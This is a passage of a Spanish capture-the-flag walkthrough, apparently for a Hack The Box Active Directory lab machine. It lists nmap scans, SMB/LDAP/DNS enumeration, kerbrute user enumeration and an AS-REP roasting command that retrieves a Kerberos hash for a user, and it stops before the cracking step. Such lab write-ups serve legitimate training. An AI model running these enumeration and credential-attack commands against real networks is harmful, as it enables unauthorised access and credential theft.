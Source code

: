 `nmap -p- --open -sS --min-rate 5000 -n -Pn -vvv 10.10.10.175 -oG allPorts`
`nmap -p53,80,88,135,139,389,445,464,593,636,3268,3269,5985,9389,49668,49673,49674,49677,49689,49697 -sCV 10.10.10.175 -oN targeted`
 ``` python
53/tcp    open  domain       
80/tcp    open  http         
|_http-server-header: Microso
|_http-title: Egotistical Ban
| http-methods: 
|_  Potentially risky methods
88/tcp    open  kerberos-sec 
135/tcp   open  msrpc        
139/tcp   open  netbios-ssn  
389/tcp   open  ldap         
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http   
636/tcp   open  tcpwrapped
3268/tcp  open  ldap         
3269/tcp  open  tcpwrapped
5985/tcp  open  http         
|_http-server-header: Microso
|_http-title: Not Found
9389/tcp  open  mc-nmf       
49668/tcp open  msrpc        
49673/tcp open  ncacn_http   
49674/tcp open  msrpc        
49677/tcp open  msrpc        
49689/tcp open  msrpc        
49697/tcp open  msrpc        
 ```


#### 445
`netexec smb $IP`
Añadimos el dominio de la maquina a `/etc/host`
`netexec smb $IP --shares`
`smbmap -H $IP`
`smbclient -L $IP -N`


#### 135
`rpcclient -U "" $IP -N`
	`enumdomusers` No nos deja acceder


#### 389
En hacktricks buscamos por el puerto y ahí buscamos por `ldapsearch` para ver diferentes formas de enumerar el servicio

`ldapsearch -x -H ldap://10.10.10.175 -s base namingcontexts`

```
namingcontexts: DC=EGOTISTICAL-BANK,DC=LOCAL
namingcontexts: CN=Configuration,DC=EGOTISTICAL-BANK,DC=LOCAL
namingcontexts: CN=Schema,CN=Configuration,DC=EGOTISTICAL-BANK,DC=LOCAL
namingcontexts: DC=DomainDnsZones,DC=EGOTISTICAL-BANK,DC=LOCAL
namingcontexts: DC=ForestDnsZones,DC=EGOTISTICAL-BANK,DC=LOCAL

```

`ldapsearch -x -H ldap://10.10.10.175 -b 'DC=EGOTISTICAL-BANK,DC=LOCAL' | grep "dn: CN="`

```ad-hint
CN=Hugo Smith,DC=EGOTISTICAL-BANK,DC=LOCAL
```

Para validar si existe nos crearemos un `.txt`, con diferentes combinaciones del usuario

Enumeraríamos a través de kerberos con la herramienta [[KERBRUTE]]
`kerbrute userenum -d EGOTISTICAL-BANK.LOCAL --dc $IP users.txt`
```ad-hint
[+] VALID USERNAME:       hsmith@EGOTISTICAL-BANK.LOCAL
```

Si nos hubiese aparecido un hash es que es vulnerable a `AS_REP ROAST`

Tambien podemos enumerar usuariios con:
`impacket-GetNPUsers -no-pass -usersfile users.txt EGOTISTICAL-BANK.LOCAL/`

Vamos a comprobrobar si se han reutilizado credenciales, 
`netexec smb $IP -u 'hsmith' -p 'hsmith'` No hay reutilización de credenciales


#### 53
`dig @10.10.10.175 EGOTISTICAL-BANK.LOCAL ns`
`dig @10.10.10.175 EGOTISTICAL-BANK.LOCAL mx`
`dig @10.10.10.175 EGOTISTICAL-BANK.LOCAL axfr`

#### 80

Encontramos en `About Us` nombres de usuarios que añadiremos con el mismo formato que el encontrado anteriormente al documento de `users.txt`
```
hsmith
fsmith
scoins
hbear
btayler
skerb
```

Volvemos a usar [[KERBRUTE]] para identificar usuarios los usuarios encontrados:
`kerbrute userenum -d EGOTISTICAL-BANK.LOCAL --dc $IP users.txt`

También lo podemos hacer con
`impacket-GetNPUsers -no-pass -usersfile users.txt EGOTISTICAL-BANK.LOCAL/`

Y nos mostraría que el usuario `fsmith` no cuenta con preautenticacion de kerberos y nos muestra el hash del Ticket Granting Ticket. Siendo asi vulnerable a `ASREPRoasting`

```ad-hint
ASREPRoasting en el usuario fsmith
```

Para crakeralo por fuerza bruta lo guardamos en un fichero llamado hash